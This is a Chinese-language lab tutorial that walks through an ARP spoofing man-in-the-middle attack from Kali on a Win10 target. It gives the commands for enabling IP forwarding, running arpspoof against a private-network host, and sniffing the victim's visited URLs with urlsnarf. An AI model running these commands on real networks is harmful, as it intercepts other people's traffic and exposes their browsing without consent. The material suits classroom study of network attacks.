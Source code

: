 # ARP攻击-流量分析

## 1.课前准备

1.kali作为攻击机

2.win10作为靶机

## 2.kali数据包转发

出于安全考虑，Linux系统默认是禁止数据包转发的。所谓**转发**即当主机拥有多于一块的网卡时，其中一块收到数据包，根据数据包的目的ip地址将数据包发往本机另一块网卡，该网卡根据路由表继续发送数据包。这通常是路由器所要实现的功能。我们需要手动开启转发功能。

**1.如何开启通信转发？**

kali里有个**ip_forward** 配置文件 

1. 默认是0 禁止端口转发
2. 将其设置成1 开启端口转发

**2.开启步骤**

1.查看当前是否开启了端口转发

```
cat /proc/sys/net/ipv4/ip_forward 
```

2.开启通信转发的命令

```
echo 1 >> /proc/sys/net/ipv4/ip_forward
```

3.使用arpspoof发起ARP攻击

```
arpspoof -i eth0 -r 192.168.70.2 -t 192.168.70.130
```

4.win10验证是否转发成功

```
访问：https://www.mashibing.com/
```

## 3.dsniff工具

**1.工具介绍**

Dsniff是一个基于unix系统网络嗅探工具，工具集包含两个我们需要的两个工具包，**arpspoof** 和**urlsnarf**。              

**2.安装方法**

```
apt-get install dsniff
```

3.urlsnarf工具介绍

```
urlsnarf -h
urlsnarf [-n] [-i interface | -p pcapfile] [[-v] pattern [expression]]

-n 表示不反查主机名
-i interface 网卡接口名
-p pattern 表示对过滤的内容使用的正则表达式
-v表示取相反，即是不匹配；expression 是过滤语法，和tcpdump的相同，请参考tcpdump。
```



## 4.url流量分析

**1.概念**

URL流量嗅探操作非常**类似于中间人攻击**，通过目标主机将路由流量注入到因特网。该过程将通过ARP注入实现攻击。url嗅探能够实时跟踪电脑中的数据流量信息，并且分析出它的类型和去向。从而获得你上网信息。

**2.攻击流程**

1.开启流量转发

```
echo 1 >> /proc/sys/net/ipv4/ip_forward
```

2.开启ARP攻击

```
arpspoof -i eth0 -r 192.168.70.2 -t 192.168.70.130
```

3.捕获目标计算机的url

```
urlsnarf -i eth0
```

4.靶机上网，访问网站

```
1.http://www.kangda.cn/#/user/login?redirect=http%3A%2F%2Fwww.kangda.cn%2F%23%2F
2.http://blog.tianya.cn/
```

5.kali分析用户请求

## 5.课堂小结

请看ARP流量分析课后笔记.xmind